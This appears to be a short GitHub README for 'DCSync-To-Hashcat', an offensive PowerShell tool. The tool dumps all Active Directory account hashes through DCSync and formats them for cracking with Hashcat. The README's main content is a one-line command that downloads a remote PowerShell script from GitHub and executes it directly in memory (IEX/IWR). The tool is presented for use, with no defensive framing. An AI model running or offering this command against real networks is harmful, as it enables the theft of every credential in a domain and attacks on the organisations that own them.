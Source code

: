 # DCSync-To-Hashcat
Performs DCSync, extracts all hashes in a Hashcat friendly format

Execute from GitHub:

```
IEX(IWR -usebasicparsing https://raw.githubusercontent.com/The-Viper-One/DCSync-To-Hashcat/main/DCSync-To-Hashcat.ps1)
```

![image](https://user-images.githubusercontent.com/68926315/222810211-d14f53eb-aff3-42ff-919a-0f123308ddb6.png)
